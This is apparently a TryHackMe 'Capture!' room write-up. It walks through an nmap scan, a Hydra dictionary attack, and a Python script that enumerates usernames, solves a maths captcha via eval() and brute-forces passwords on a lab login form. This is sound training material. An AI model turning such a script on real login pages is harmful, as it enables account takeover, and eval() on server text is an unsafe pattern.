





# Capture! Writeup by 1nsouciance (l1asis)


## Hi everyone! ***Capture!*** room on TryHackMe is pretty simple, but interesting room... Let's break it down!

## ***Resources***
### Make sure you download the .zip archive with logins and passwords provided by the room creator!

## ***Step 1: Reconnaissance***
### Nmap is powerful and handful tool for enumerating targets, so let's begin with it:
```bash
sudo nmap -sS -Pn 10.10.170.111
```
### **Nmap Results:**
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:00 BST
Nmap scan report for localhost (10.10.170.111)
Host is up (0.52s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 5.15 seconds
```

### There's a website. Let's check it with our browser:


### **Login page!** Errors and incorrect credentials are our close friends right now! (you have to enter something and try to login)


### **Oh no...** But now we know that the first security breach of this login form is that it shows us whether the user exists or not! It's important to keep this in mind.

## ***Step 2.1: Dictionary attack with Hydra***
### I will say up front, I tried to breach this login form with 'hydra' right away, but the long time without results showed that there was something else we didn't take into account...
```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.170.111/login:username=^USER^&password=^PASS^:Error"
```

### **Let's check the form with incorrect credentials one more time:**


### **A-ha!** Mathematical captcha! From this moment, the most interesting stage of login form hacking begins: we'll write **an automated script in Python!**

## ***Step 2.2: Scripting***
### First of all we have to import two very useful libraries with `import` keyword, read our usernames and passwords from the files into lists and create url variable:
```python
import requests, re

url = "http://10.10.170.111/login"

with open("usernames.txt", "rt") as fd:
	usernames = fd.read().splitlines()
	
with open("passwords.txt", "rt") as fd:
	passwords = fd.read().splitlines()
```

### Next step may be a little bit hard to understand for beginners in hacking/programming. We'll create a regular expression for finding captcha string in the html server responses later:
```python
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")
```
### **P.S.** There's two useful websites, where you can read more about it, or practice creating your own regular expressions:
### | [Wiki](https://en.wikipedia.org/wiki/Regular_expression) | [Regex101](https://regex101.com/) |
 

### **Right then** we'll create function, that will send POST request, trying to log in:
```python
def send_post(username, password, captcha=None):
	data = {
		"username":username,
		"password":password,
	}
	if captcha:
		data.update({"captcha":captcha})
	response = requests.post(url=url, data=data)
	return response
```

### And another function to find the captcha equation and solve it with built-in python function `eval()`:
```python
def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)
```

### Then we'll try to find next captcha solution:
```python
for count in range(100):
	response = send_post("darthvader", "lukesfather")
	try:
		captcha = solve_captcha(response)
		print(f"Captcha synchronised! Next solution is: {captcha}")
		break
	except:
		pass
```

### **And our final block of code!** We'll iterate through all our usernames and passwords ***(but trying to identify existing username first)*** and then try all passwords to login:
```python
for username in usernames:
		response = send_post(username, "None", captcha)
		captcha = solve_captcha(response)
		if not "does not exist" in response.text:
			for password in passwords:
				response = send_post(username, password, captcha)
				if not "Error" in response.text:
					print(f"Success! Username:{username} Password:{password}")
					exit(0)
				else:
					captcha = solve_captcha(response)
```

## ***Phew.*** TIME X!


## ***Finally :\)*** Let's now grab our flag...


## **I hope you enjoyed my writeup. You can find the script in this repository. Be safe! <3**
